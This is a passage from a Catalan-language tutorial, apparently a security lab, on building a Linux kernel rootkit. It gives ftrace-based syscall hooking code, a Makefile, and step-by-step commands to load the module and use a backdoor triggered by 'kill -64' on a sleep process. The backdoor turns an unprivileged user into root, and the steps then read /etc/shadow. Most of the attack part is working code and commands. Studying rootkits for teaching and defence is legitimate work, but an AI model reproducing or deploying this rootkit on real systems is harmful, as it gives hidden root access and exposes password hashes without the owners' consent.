            * need to OR the RECURSION_SAFE flag (effectively turning if OFF) because
            * the built-in anti-recursion guard provided by ftrace is useless if
            * we're modifying $rip. This is why we have to implement our own checks
            * (see USE_FENTRY_OFFSET). */
            hook->ops.func = (ftrace_func_t)fh_ftrace_thunk;
            hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
                    | FTRACE_OPS_FL_RECURSION
                    | FTRACE_OPS_FL_IPMODIFY;

            err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
                return err;
            }

            err = register_ftrace_function(&hook->ops);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
                return err;
            }

            return 0;
        }

        /* Disabling our function hook is just a simple matter of calling the built-in
        * unregister_ftrace_function() and ftrace_set_filter_ip() functions (note the
        * opposite order to that in fh_install_hook()).
        * */
        void fh_remove_hook(struct ftrace_hook *hook)
        {
            int err;
            err = unregister_ftrace_function(&hook->ops);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err);
            }

            err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
            }
        }

        /* To make it easier to hook multiple functions in one module, this provides
        * a simple loop over an array of ftrace_hook struct
        * */
        int fh_install_hooks(struct ftrace_hook *hooks, size_t count)
        {
            int err;
            size_t i;

            for (i = 0 ; i < count ; i++)
            {
                err = fh_install_hook(&hooks[i]);
                if(err)
                    goto error;
            }
            return 0;

        error:
            while (i != 0)
            {
                fh_remove_hook(&hooks[--i]);
            }
            return err;
        }

        void fh_remove_hooks(struct ftrace_hook *hooks, size_t count)
        {
            size_t i;

            for (i = 0 ; i < count ; i++)
                fh_remove_hook(&hooks[i]);
        }
    ```
    
    Aquesta implementació es basa en la implementació de **ftrace**. Ftrace és una eina de depuració que permet monitoritzar les crides a sistema. Per a més informació sobre ftrace podeu consultar [**aquest enllaç**](https://www.kernel.org/doc/html/latest/trace/ftrace.html). Registra la informació relacionada amb les crides a sistema i ens permet definir callbacks, entre altres funcions. Ens permet intervenir quan el registre '''rip'''contingui una adreça de memòria. Si establim que aquesta adreça és on comença la funcionalitat d'una crida a sistema, podem modificar perquè s'executi una altra funcionalitat.

    ```c
    struct ftrace_hook {
        const char *name;
        void *function;
        void *original;
        unsigned long address;
        struct ftrace_ops ops;
    };
    ```

    La part més important de hook és la callback. Aquesta funció està assignant al registre **IP** (següent instrucció a executar pel processador) a l'adreça *hook->function*. 

    ```c
    static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, 
        struct ftrace_ops *ops, struct pt_regs *regs)
    {
        struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);
        #if USE_FENTRY_OFFSET
            regs->ip = (unsigned long) hook->function;
        #else
            if(!within_module(parent_ip, THIS_MODULE))
                regs->ip = (unsigned long) hook->function;
        #endif
    }
    ```

    **notrace** és un tractament especial per marcar funcions prohibides per a fer seguiment amb *ptrace*. Es poden marcar funcions que s'utilitzen en el procés de seguiment. Evitem que el sistema es pengi si cridem de forma errònia a la vostra callback.
    
    També és molt important la funció **fh_resolve_hook_address()**. Aquesta funció utilitza ```kallsyms_lookup_name()``` (**linux/kallsyms.h>**) per cercar l'adreça de la crida a sistema real. Aquest valor s'emprarà tant per obtenir el codi original i guardar-lo en una altra adreça com per sobreescriu amb el nostre *rootkit*. Es guarda en l'atribut *address*.

    ```c
        static int fh_resolve_hook_address(struct ftrace_hook *hook)
        {
        #ifdef KPROBE_LOOKUP
            typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
            kallsyms_lookup_name_t kallsyms_lookup_name;
            register_kprobe(&kp);
            kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
            unregister_kprobe(&kp);
        #endif
            hook->address = kallsyms_lookup_name(hook->name);

            if (!hook->address)
            {
                printk(KERN_DEBUG "rootkit: unresolved symbol: %s\n", hook->name);
                return -ENOENT;
            }
        }
    ```

    **OBSERVACIÓ**: Quan intentem fer hook, es poden donar bucles recursius. Per evitar-ho tenim diferents opcions. Podem intenta detectar la recursivitat mirant l'adreça de retorn de la funció o bé podem saltar a una adreça per sobre la crida *ftrace*.

    ```c
        #if USE_FENTRY_OFFSET
            *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE;
        #else
            *((unsigned long*) hook->original) = hook->address;
        #endif
    ```

    Finalment, no ens podem oblidar de comentar els flags que s'utilitzen per definir la callback:

    * **FTRACE_OPS_FL_SAVE_REGS**: Flag que permet passar *pt_regs* de la crida original al nostre hook.
    * **FTRACE_OPS_FL_IP_MODIFY**: Indiquem a ftrace que modificarem el registre IP.
    * **FTRACE_OPS_FL_RECURSION**: Desactivar la protecció per defecte de ftrace.

    ```c
        hook->ops.func = (ftrace_func_t)fh_ftrace_thunk;
        hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
                    | FTRACE_OPS_FL_RECURSION
                    | FTRACE_OPS_FL_IPMODIFY;
    ```
    
    Bàsicament aquestes funcions ens permet instal·lar/desinstal·lar **hooks** a crides a sistema. 

    * **ftrace_set_filter_ip()** diu a ftrace que només executi la nostra callback quan **rip** és l'adreça de *sys_open*  (desada a hook->address). 
    * **register_ftrace_function()**. Asegura que tot estigui al seu lloc i l'hook preparat.

    ```c
        err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
            return err;
        }
        err = register_ftrace_function(&hook->ops);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
            return err;
        }
    ```

    * Desfem el procés anterior:

    ```c
    void fh_remove_hook(struct ftrace_hook *hook)
    {
        int err;
        err = unregister_ftrace_function(&hook->ops);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err);
        }

        err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        }
    }
    ```


5. Preparem un Makefile per compilar el nostre mòdul del kernel:

    ```makefile
    obj-m += rootkit.o

    all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

    clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
    ```

6. Compilem el nostre mòdul del kernel:

    ```sh
    make
    ```

7. Instal·lem el nostre mòdul del kernel:

    ```sh
    insmod rootkit.ko
    ```

8. Comprovem que el nostre mòdul s'ha instal·lat correctament:

    ```sh
    lsmod | grep rootkit
    ```

9. Comprovem que el nostre rootkit funciona correctament:

    ```sh
    dmesg | tail
    ```

10. Crearem un usuari al sistema sense privilegis d'administrador:

    ```sh
    useradd test
    ```

11. Ens connectem al sistema amb aquest usuari:

    ```sh
    su - test
    ```

12. Observem els valors que identifiquen l'usuari actual:

    ```sh
    id
    ```

13. Intenteu revisar un fitxer que només pot ser llegit pel root (/etc/shadow):

    ```sh
    cat /etc/shadow
    ```

14. Activem el nostre backdoor:

    ```sh
    sleep 120 &
    ```

15. Obtenim el id del procés sleep:

    ```sh
    ps | grep sleep
    ```

16. Enviem la senyal:

    ```sh
    kill -64 20005
    ```

17. Comprovem que ara tenim privilegis d'administrador:

    ```sh
    id
    ```

18. Comprovem que ara podem llegir el fitxer /etc/shadow:

    ```sh
    cat /etc/shadow
    ```

19. Desinstal·lem el nostre mòdul del kernel:

    ```sh
    rmmod rootkit
    ```